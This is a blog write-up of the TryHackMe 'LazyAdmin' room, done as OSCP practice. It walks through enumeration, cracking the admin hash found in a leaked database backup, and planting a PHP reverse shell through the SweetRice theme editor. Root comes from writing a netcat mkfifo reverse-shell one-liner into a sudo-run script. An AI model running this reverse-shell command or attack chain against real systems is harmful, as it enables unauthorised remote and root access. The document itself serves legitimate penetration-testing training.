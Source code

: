 ```yaml
---
layout: post
title:  "TryHackMe - LazyAdmin (Easy)"
description: "Easy Linux machine to practice your skills"
author: 0x5ubt13
date: 2021-01-17 14:30:00 +0000
categories: [Write-Ups, OSCP, Pentesting, Ethical-Hacking, Password-Cracking, Easy, PHP-reverse-shell]
tags: [write-up, OSCP, Pentesting, Ethical-Hacking, Password-Cracking, Easy, PHP-reverse-shell]
math: true
mermaid: true
image: /assets/images/write-ups/tryhackme/lazyadmin/lazyadmin_logo.png
---
```


Welcome to my second write-up, this time based on the room LazyAdmin from TryHackMe. This is the second of a series of rooms I will be covering on my personal Road to OSCP journey.

You can find the room for free in the following link: [TryHackMe - LazyAdmin](https://tryhackme.com/room/lazyadmin)

<p>&nbsp;</p>

# Reconnaissance:

First off as usual, we run our favourite scan to see what's for us in store.

```sh
ip=10.10.115.249
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -A -oN lazyadmin_initial.nmap -p$ports $ip
```

Since there's nothing special to see in the aggresive scan, I will paste a simplified scan, just to show port 80 and 22 are the only ones open and omitting the rest:

![Scan](/assets/images/write-ups/tryhackme/lazyadmin/scan.png)

Let's dive right into the website!

<p>&nbsp;</p>

# Scouting Port 80:

Upon connecting, we see the dull apache welcoming page:

![Def page](/assets/images/write-ups/tryhackme/lazyadmin/def_page.png)

Looks like it's GoBuster time!

In order to find some hidden directories, a simple Gobuster's command goes like this:

`gobuster -dir -w <your wordlist> -u <the target URL>`

Since this is an easy box, I will be using a small, default list:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249`

![GoBuster first scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_1st_scan.png)

It looks like we have a finding: `/content/`.
If we jump in, we see again a simple default page, however this time we have more information: it's using a CMS called SweetRice.
Finding nothing else, it's time to use Gobuster again, this time adding the directory we found to the base URL:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249/content`

![Gobuster second scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_2nd_scan.png)

Now we are finally advancing somewhere! Let's dig into those directories see what we find.

<p>&nbsp;</p>

# Enumerating Port 80:

I found something interesting whilst taking a peek into the `/inc` folder: an old database!

![Database found](/assets/images/write-ups/tryhackme/lazyadmin/database_found.png)
![Database found 2](/assets/images/write-ups/tryhackme/lazyadmin/database_found2.png)

We have several options now with this MySql database. One, would be to start an database service and load the backup; or we could just cat the code for a quicker, dirtier approach to avoid us some trouble if there was nothing really in there.

`cat mysql_bakup_20191129023059-1.5.1.sql`

Fortunately, there was indeed something valuable in there: the admin password hash! He was a lazy admin indeed...

![Hash found](/assets/images/write-ups/tryhackme/lazyadmin/hash_found.png)

<p>&nbsp;</p>

# Cracking the password:

I know using Hashcat or John The Ripper is really cool, but the quickest way of cracking any hash is just throwing it against rainbow tables in the internet and pray for it to be in the database. In case these fail, we can always sweat trying to crack it, but why going through the whole process if the title of the room is "LazyAdmin"?

![Password cracked](/assets/images/write-ups/tryhackme/lazyadmin/password_cracked.png)

Well, no surprise on this one, it really was a weak password!

<p>&nbsp;</p>

# Find Password, Use Password!

When we peeked over the database backup we found, we also saw the username "manager". Along with knowing the password, we are entitled now to try and login to the website's admin portal, located in one of the directories we enumerated with Gobuster. Enumeration matched with the login portal:

![Login](/assets/images/write-ups/tryhackme/lazyadmin/login.png)

![Admin panel](/assets/images/write-ups/tryhackme/lazyadmin/admin_panel.png)

<p>&nbsp;</p>

# Reverse shell

Once we are inside the admin panel in the website, we start enumerating what's inside. If we take a look inside Themes, we see we can manipulate php files to configure the website's theme with them. Well, smells like php reverse shell!!

![Reverse shell prep](/assets/images/write-ups/tryhackme/lazyadmin/reverse_shell_prep.png)

We will be using Pentest Monkeys' PHP reverse shell. Only thing we have to do is setting up our tun0 IP address and listening in the port we specify.

![Modifying theme php reverse shell](/assets/images/write-ups/tryhackme/lazyadmin/modifying_theme_php_reverse_shell.png)

Now, everything is prepared. All we have to do at this point is navigating to the `_themes` directory we enumerated earlier with Gobuster and finding the php file we edited. 

Set up the listener. 
Click. 
*We are in*. 

![We are in](/assets/images/write-ups/tryhackme/lazyadmin/we_are_in.png)

<p>&nbsp;</p>

# Privilege Escalation Phase

![Privesc prep](/assets/images/write-ups/tryhackme/lazyadmin/privesc_prep.png)

1. We try a quick `sudo -l` to check whether we can use any command as sudo with our current user... And yes!
2. We can call a perl script in the `/home/itguy/` directory without providing `sudo` password.
3. The content of `/home/itguy/backup.pl`. It's non-writable. We can see it's calling a script located in `/etc/` directory. Maybe we can write to it?
4. Taking a look at the permissions of the file, it looks like we can actually write to it and the owner is root!! Therefore, if we modify it to spawn a reverse shell in our ip, we should be able to pop a root shell. Let's try it out!

<p>&nbsp;</p>

# Pwning the machine

Now that we know we have access to that file, let's make it call a root bash reverse shell. 

Since nano is blocked and vi or vim are missing from the system, we can use `echo` redirect to write to a file. 
My full command looks like this:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.0.124 5556 >/tmp/f" > /etc/copy.sh
```

Then, calling the perl script will promote us to boss level on the box:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

![Pwned](/assets/images/write-ups/tryhackme/lazyadmin/pwned.png)

<p>&nbsp;</p>


